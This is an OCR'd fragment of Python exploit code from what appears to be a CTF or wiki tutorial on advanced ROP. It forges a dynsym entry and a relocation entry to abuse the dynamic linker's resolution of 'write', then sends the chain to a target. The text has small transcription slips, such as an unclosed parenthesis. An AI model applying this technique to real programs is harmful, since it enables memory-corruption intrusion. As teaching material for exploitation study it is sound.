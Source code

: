 ```python

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  ## plus 10 since the size of Elf32_Sym is 16.
  st_name = fake_sym_addr + 0x10 - dynstr
  fake_write_sym = flat([st_name, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(fake_write_reloc)  # fake write reloc
  rop.raw('a' * align)  # padding
  rop.raw(fake_write_sym)  # fake write symbol
  rop.raw('write\x00')  # there must be a \x00 to mark the end of string
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain()
  r.recv()
```

![Alt](img/wiki-AdvancedRop9.png)
